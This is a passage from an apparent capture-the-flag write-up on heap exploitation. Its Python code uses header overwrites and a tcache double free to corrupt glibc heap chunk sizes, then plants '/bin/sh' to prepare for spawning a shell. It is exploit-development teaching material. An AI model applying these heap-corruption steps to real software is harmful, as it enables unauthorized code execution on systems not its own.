 So we only have to repeat what we have done earlier: free and then allocate the same chunk again:
```python
add(0x38, "A"*0x38, "A"*0x38)	# A's will be 41 in memory
add(0x38, "B"*0x38, "B"*0x38)	# B's 42, 0x38 = 3*16+8 = 56 bytes
free(1)
free(0)
add(0x48, "C"*0x48, "C"*0x20)	# allocating two chunks with a size bigger than 0x30
add(0x68, "C"*0x68, "C"*0x20)	# but also with a size%16=8 
free(0)
add(0x48, "C"*0x48, "C"*0x20)	
```
{% include figure image_path="/assets/images/playerTwo/Chunk4.png" alt="this is a placeholder image" caption="Our plan worked - we overwrote the chunk size header from 0x171 to 0x100." %}

### The double free
Now that we were able to set the chunk size header from 0x1XY to 0x100 we can do a double free attack similar to the before mentioned _zero_to_hero_ challenge [[1]](#[1]) with small variations.<br/>
To do this we need to allocte and free two dummies of size 0x30 (also 0x41 in memory) where we want to write our config name to. For the chunks I want to align the descriptions adjacent I chose sizes 0x58 (chunk 9) and 0x180 (chunk 10):
{: .text-justify} 
```python
# Dummies
add(0x30)	# Dummies are necessary to get two config _descriptions_ aligned right
add(0x30)	# after each other so that it is possible to overwrite the second chunk
		# size header. The size is deliberately set at 0x30, because this will
free(9)		# result in a chunk size of 0x41 in memory, which is also used for the 
free(10)	# config _name_. Freeing these two chunks results in 4 free 0x40 chunks.
# Allocate config descriptions adjacent in memory
add(0x58, 'A'*0x58)	# Allocation of size >0x40 will do the following: allocate 0x40 of the
add(0x180, 'B'*0x100)	# first dummy for config name and allocate 0x58 _after_ the dummies,
free(10)		# because there is no space for it earlier. Same goes for 0x180:
free(9)			# 0x40 of the dummy and 0x180 _right after_ the 0x58 chunk.
```
The key is to free chunk 10 so this chunk will go into the 0x180 tcache bin. Then we will overwrite the chunk size from 0x180 to 0x100 with chunk 9 but also write `/bin/sh\x00` at the beginning of chunk 9. As the program will cut off descriptions after the first null byte, strings such as `p64('/bin/sh\x00') + b"A"*(0x50)` won't work as. To solve this puzzle we need to do it in two steps:
{: .text-justify} 
- overwrite the chunk 10's size header
- write `/bin/sh\x00` into chunk 9 and let the rest untouched

```python
# Dummies
add(0x30)	# Dummies are necessary to get two config _descriptions_ aligned right
add(0x30)	# after each other so that it is possible to overwrite the second chunk
		# size header. The size is deliberately set at 0x30, because this will
free(9)		# result in a chunk size of 0x41 in memory, which is also used for the 
free(10)	# config _name_. Freeing these two chunks results in 4 free 0x40 chunks.
# Allocate config descriptions adjacent in memory
add(0x58, 'A'*0x58)	# Allocation of size >0x40 will do the following: allocate 0x40 of the
add(0x180, 'B'*0x100)	# first dummy for config name and allocate 0x58 _after_ the dummies,
free(10)		# because there is no space for it earlier. Same goes for 0x180:
free(9)			# 0x40 of the dummy and 0x180 _right after_ the 0x58 chunk.
# /bin/sh and null byte overwrite the chunksize header from 191 to 100
add(0x58, 'A'*0x58)	# As the string will be terminated after the first null byte,
free(9)			# we have to do this in two steps. Overwrite first, free...
add(0x58, '/bin/sh\x00')# ... and write /bin/sh plus the null byte and leave the rest.
```